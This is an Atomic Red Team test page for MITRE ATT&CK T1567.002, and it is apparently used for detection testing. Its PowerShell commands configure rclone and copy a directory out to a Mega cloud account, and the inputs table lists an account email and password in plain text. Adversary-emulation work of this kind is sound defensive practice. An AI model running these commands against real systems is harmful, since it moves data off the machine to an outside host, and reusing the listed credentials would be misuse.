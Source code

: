 # T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/002)
<blockquote>Adversaries may exfiltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.

Examples of cloud storage services include Dropbox and Google Docs. Exfiltration to these cloud storage services can provide a significant amount of cover to the adversary if hosts within the network are already communicating with the service. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)](#atomic-test-1---exfiltrate-data-with-rclone-to-cloud-storage---mega-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)
This test uses rclone to exfiltrate data to a remote cloud storage instance. (Mega)
See https://thedfirreport.com/2022/06/16/sans-ransomware-summit-2022-can-you-detect-this/

**Supported Platforms:** Windows


**auto_generated_guid:** 8529ee44-279a-4a19-80bf-b846a40dda58





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rclone_path | Directory of rclone.exe | path | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002&#92;rclone-v*&#92;|
| rclone_config_path | Path to rclone's config file (default should be fine) | path | $env:appdata|
| dir_to_copy | Directory to copy | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;T1567.002|
| mega_user_account | Mega user account | string | atomictesting@outlook.com|
| mega_user_password | Mega user password | string | vmcjt1A_LEMKEXXy0CKFoiFCEztpFLcZVNinHA|
| remote_share | Remote Mega share | string | T1567002|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item #{rclone_config_path}\rclone -ItemType directory
New-Item #{rclone_config_path}\rclone\rclone.conf
cd #{rclone_path}
.\rclone.exe config create #{remote_share} mega
set-Content #{rclone_config_path}\rclone\rclone.conf "[#{remote_share}] `n type = mega `n user = #{mega_user_account} `n pass = #{mega_user_password}"
.\rclone.exe copy --max-size 1700k #{dir_to_copy} #{remote_share}:test -v
```

#### Cleanup Commands:
```powershell
cd #{rclone_path}
.\rclone.exe purge #{remote_share}:test
.\rclone.exe config delete #{remote_share}:
Remove-Item #{rclone_config_path}\rclone -recurse -force -erroraction silentlycontinue
cd c:\
Remove-Item PathToAtomicsFolder\..\ExternalPayloads\rclone.zip
Remove-Item PathToAtomicsFolder\..\ExternalPayloads\T1567.002 -recurse -force
```



#### Dependencies:  Run with `powershell`!
##### Description: rclone must exist at (#{rclone_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rclone_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile PathToAtomicsFolder\..\ExternalPayloads\rclone.zip
Expand-archive -path PathToAtomicsFolder\..\ExternalPayloads\rclone.zip -destinationpath PathToAtomicsFolder\..\ExternalPayloads\T1567.002\ -force
```




<br/>
